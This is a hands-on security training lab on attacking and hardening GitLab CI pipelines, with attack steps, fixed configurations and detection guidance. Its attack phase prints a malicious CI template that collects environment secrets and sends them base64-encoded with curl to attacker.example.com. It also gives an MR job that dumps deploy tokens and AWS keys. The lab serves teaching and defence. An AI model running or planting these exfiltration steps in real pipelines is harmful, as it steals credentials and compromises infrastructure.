

# Lab 2.9: GitLab CI Pipeline Attacks

<div class="lab-meta">
  <span>~20 min hands-on | ~15 min reference</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="2.1-cicd-fundamentals.md">Lab 2.1</a></span>
</div>

GitLab CI has three features that create unique attack surface without GitHub Actions equivalents: `include:remote` (pulls pipeline config from arbitrary external URLs), unprotected CI/CD variables (leak to every pipeline including MR pipelines from untrusted contributors), and cross-project `trigger:` pipelines (lateral movement from low-privilege to high-privilege projects).

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| GitLab | `gitlab:8929` | Self-hosted GitLab with `wl-webapp` and `ops/deploy-infra` projects |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. GitLab CI Architecture and Attack Surface"

### Step 1: GitLab CI vs GitHub Actions

| Feature | GitHub Actions | GitLab CI |
|---------|---------------|-----------|
| Config file | `.github/workflows/*.yml` (multiple) | `.gitlab-ci.yml` (single) |
| Secrets | Repository/org secrets (encrypted) | CI/CD variables (project/group/instance) |
| Reuse | Actions from marketplace | `include:` from URLs, projects, or local files |
| Cross-repo triggers | `workflow_dispatch` with PAT | `trigger:` keyword with `CI_JOB_TOKEN` |
| Fork PR behavior | Forks cannot access secrets by default | MR pipelines from forks can access **unprotected** variables |

### Step 2: Examine the vulnerable configuration

```bash
cd /repos/wl-webapp
cat .gitlab-ci.yml
```

Three attack vectors in one file:

```yaml
include:
  - remote: 'https://shared-ci-templates.example.com/templates/build.yml'

variables:
  DEPLOY_TOKEN: $DEPLOY_TOKEN     # Not protected
  AWS_ACCESS_KEY_ID: $AWS_ACCESS_KEY_ID  # Not protected

deploy:
  stage: deploy
  script:
    - aws s3 sync dist/ s3://production-bucket/

trigger-infra:
  stage: trigger-downstream
  trigger:
    project: ops/deploy-infra
    branch: main
```

### Step 3: Understand `include:remote`

| Include Type | Source | Risk |
|-------------|--------|------|
| `include:local` | Same repository | Low |
| `include:project` | Another GitLab project | Medium |
| `include:remote` | **Any HTTP/HTTPS URL** | **High** |
| `include:template` | GitLab-managed templates | Low |

`include:remote` fetches YAML and **merges it into your pipeline configuration**. The remote template can define jobs, variables, `before_script` blocks. If the URL is compromised, the attacker controls your entire pipeline. No integrity check, no pinning.

### Step 4: Understand CI/CD variable scoping

GitLab CI/CD variables have two critical properties:

- **Protected**: only available in pipelines on protected branches/tags
- **Masked**: hidden from job logs (cosmetic, not a security control)

If a variable is **not protected**, it is available to pipelines on any branch, MR pipelines (including from forks), and triggered pipelines from any source.

### Step 5: Understand cross-project triggers

```yaml
trigger-infra:
  trigger:
    project: ops/deploy-infra
    branch: main
```

The downstream pipeline runs with the permissions and variables of the **target project**. If `ops/deploy-infra` has production deployment credentials, any pipeline in `wl-webapp` that reaches the trigger stage can access them indirectly.

---

???+ warning "Phase 2: BREAK. Three GitLab-Specific Attack Vectors"

### Attack 1: `include:remote` Template Injection

If an attacker compromises the remote URL (DNS hijack, server compromise, domain expiration), they serve a malicious template:

```bash
cat /lab/src/malicious-template.yml
```

```yaml
.malicious-base:
  before_script:
    - |
      env | grep -E '(TOKEN|SECRET|KEY|PASSWORD)' \
        | base64 | curl -sf -X POST "https://attacker.example.com/collect" \
        -H "Content-Type: text/plain" -d @- || true

security-scan:
  extends: .malicious-base
  stage: test
  script:
    - echo "Running security scan..."
    - echo "Scan complete. No issues found."
```

The template YAML merges with full authority. The `before_script` runs before your legitimate job scripts.

### Attack 2: Unprotected CI Variable Leakage

```bash
cd /repos/wl-webapp
git checkout -b feature/read-secrets
```

```bash
cat >> .gitlab-ci.yml << 'EOF'

extract-vars:
  stage: test
  script:
    - echo "Running tests..."
    - env | sort
    - echo "$DEPLOY_TOKEN"
    - echo "$AWS_ACCESS_KEY_ID"
    - echo "$AWS_SECRET_ACCESS_KEY"
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
EOF

git add .gitlab-ci.yml
git commit -m "Add test improvements"
git push origin feature/read-secrets
```

The MR pipeline runs the attacker's `.gitlab-ci.yml` from the source branch with access to all **unprotected** variables. Variable masking only hides values from logs; it does not prevent script access.

**Checkpoint:** You should now have an MR branch that dumps all unprotected CI variables, and understand how `include:remote` template injection and cross-project triggers work.

### Attack 3: Cross-Project Trigger Abuse

The trigger job has no `rules:` restricting when it runs. An MR pipeline reaches the trigger stage and starts a pipeline in `ops/deploy-infra` with that project's protected variables and deployment permissions.

### Combined attack chain

```
Attacker opens Merge Request
  +-- MR pipeline uses attacker's .gitlab-ci.yml
  |     +-- include:remote loads malicious template
  |     |     -> Exfiltrates all unprotected variables
  |     +-- extract-vars job reads DEPLOY_TOKEN, AWS keys
  |     +-- trigger-infra triggers ops/deploy-infra
  |           -> Production deployment with attacker-controlled parameters
  -> Result: secrets stolen + infrastructure compromised
```

---

???+ success "Phase 3: DEFEND. Securing GitLab CI Pipelines"

### Fix 1: Replace `include:remote` with `include:project`

```bash
cd /repos/wl-webapp
git checkout main
```

```bash
cat > .gitlab-ci.yml << 'CIEOF'
include:
  - project: 'security/ci-templates'
    file: '/templates/build.yml'
    ref: 'v2.1.0'
  - project: 'security/ci-templates'
    file: '/templates/security-scan.yml'
    ref: 'v2.1.0'

stages:
  - build
  - test
  - deploy
  - trigger-downstream

variables:
  NODE_ENV: "production"

build:
  stage: build
  script:
    - npm ci
    - npm run build
  artifacts:
    paths:
      - dist/
    expire_in: 1 hour
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

test:
  stage: test
  script:
    - npm run test
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

deploy:
  stage: deploy
  script:
    - aws s3 sync dist/ s3://production-bucket/ --delete
  environment:
    name: production
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
      when: manual

trigger-infra:
  stage: trigger-downstream
  trigger:
    project: ops/deploy-infra
    branch: main
    strategy: depend
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
CIEOF
```

### Fix 2: Protect all sensitive CI/CD variables

In GitLab UI: **Settings > CI/CD > Variables**, for each sensitive variable:

1. Check **"Protected"**. only available on protected branches
2. Check **"Masked"**. hidden from job logs
3. Optionally set **"Environment scope"**

```
Variable              | Protected | Masked | Env Scope
=====================|===========|========|==========
DEPLOY_TOKEN         | YES       | YES    | production
AWS_ACCESS_KEY_ID    | YES       | YES    | production
AWS_SECRET_ACCESS_KEY| YES       | YES    | production
SONAR_TOKEN          | YES       | YES    | *
```

### Fix 3: Restrict cross-project triggers

Add `rules:` to prevent MR pipelines from triggering downstream:

```yaml
trigger-infra:
  trigger:
    project: ops/deploy-infra
    branch: main
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
```

For the downstream project, add validation:

```yaml
# In ops/deploy-infra/.gitlab-ci.yml
workflow:
  rules:
    - if: $CI_PIPELINE_SOURCE == "pipeline" && $CI_PROJECT_PATH == "team/wl-webapp"
    - if: $CI_PIPELINE_SOURCE == "push"
    - if: $CI_PIPELINE_SOURCE == "web"
```

### Fix 4: Commit and push

```bash
git add -A
git commit -m "Harden GitLab CI: replace include:remote, protect variables, restrict triggers"
git push origin main
```

### Fix 5: Final verification

```bash
weaklink verify 2.9
```

---

??? danger "Phase 4: DETECT. Catching GitLab CI Exploitation"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Injecting malicious CI templates via `include:remote` |
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | Malicious scripts via pipeline jobs and `before_script` blocks |
| **Unsecured Credentials: Credentials in Files** | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | Unprotected CI/CD variables exposed to MR pipelines |

Three signals: new `include:remote` URLs in CI configs, variable access patterns in MR pipelines, and cross-project trigger chains from unexpected sources.

Look for `.gitlab-ci.yml` changes adding `include:remote` URLs, MR pipelines accessing CI/CD variables that should be protected, cross-project triggers originating from MR pipelines, pipeline jobs making outbound HTTP calls not present in previous runs, and `include:remote` URLs pointing to recently registered domains.

| Indicator | Type | Description |
|-----------|------|-------------|
| `include:remote` URL change | Config | New external URL in CI configuration |
| Variable access in MR pipeline | Variable | Sensitive variable read in untrusted context |
| Cross-project trigger from MR | Trigger | Downstream pipeline started by MR pipeline |
| `before_script` with curl/wget | Network | Data exfiltration from pipeline jobs |

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "include:remote URL changed in .gitlab-ci.yml" (repository monitoring)
    - "Sensitive variable accessed in merge request pipeline" (CI audit log)
    - "Cross-project pipeline triggered from MR pipeline" (pipeline audit)

    **Triage workflow:**

    1. **Check the `include:remote` URL**. internal or external host? Recently changed? Newly registered domain?
    2. **Review the MR diff**. modified `.gitlab-ci.yml`? New jobs or `include:` directives?
    3. **Check variable protection status**. are accessed variables marked Protected?
    4. **Trace cross-project triggers**. did an MR pipeline trigger a downstream deployment?
    5. **Review job logs**. `env`, `printenv`, `curl`, `wget` in output that should not be there?
    6. **If confirmed: rotate all exposed secrets**

    **False positive rate:** Medium. Key discriminators: `include:remote` should never appear, variable access in MR context should only access non-sensitive vars, cross-project triggers from MR pipelines should never happen.

---

??? example "CI Integration"

    **`.github/workflows/gitlab-ci-audit.yml`** (for organizations mirroring to GitHub):

    ```yaml
    name: GitLab CI Config Audit

    on:
      pull_request:
        paths:
          - ".gitlab-ci.yml"
          - "**/.gitlab-ci.yml"

    jobs:
      audit-gitlab-ci:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Check for include:remote
            run: |
              if grep -r "remote:" .gitlab-ci.yml 2>/dev/null | grep -q "http"; then
                echo "::error::include:remote with external URL detected in .gitlab-ci.yml"
                echo "Use include:project with pinned refs instead."
                exit 1
              fi
              echo "No include:remote found."

          - name: Check for unprotected variable references
            run: |
              if awk '/^variables:/,/^[a-z]/' .gitlab-ci.yml | grep -qE '\$(TOKEN|SECRET|KEY|PASSWORD)'; then
                echo "::warning::Sensitive variables referenced in global variables block."
                echo "Move these to Protected Variables in GitLab UI."
              fi

          - name: Check trigger jobs have rules
            run: |
              python3 -c "
              import yaml, sys
              with open('.gitlab-ci.yml') as f:
                  ci = yaml.safe_load(f)
              for job_name, job_config in ci.items():
                  if isinstance(job_config, dict) and 'trigger' in job_config:
                      if 'rules' not in job_config:
                          print(f'::error::trigger job \"{job_name}\" has no rules: block')
                          sys.exit(1)
              print('All trigger jobs have rules.')
              "
    ```

---

## What You Learned

1. **`include:remote` pulls pipeline config from any URL with no integrity verification**. use `include:project` with pinned refs instead.
2. **Unprotected CI/CD variables leak to MR pipelines**. mark every sensitive variable as Protected.
3. **Cross-project triggers enable lateral movement**. add `rules:` restricting trigger jobs to the default branch only.

## Further Reading

- [GitLab: CI/CD Variable Security](https://docs.gitlab.com/ee/ci/variables/#cicd-variable-security)
- [GitLab: include keyword](https://docs.gitlab.com/ee/ci/yaml/index.html#include)
- [GitLab: Multi-project Pipelines](https://docs.gitlab.com/ee/ci/pipelines/downstream_pipelines.html)
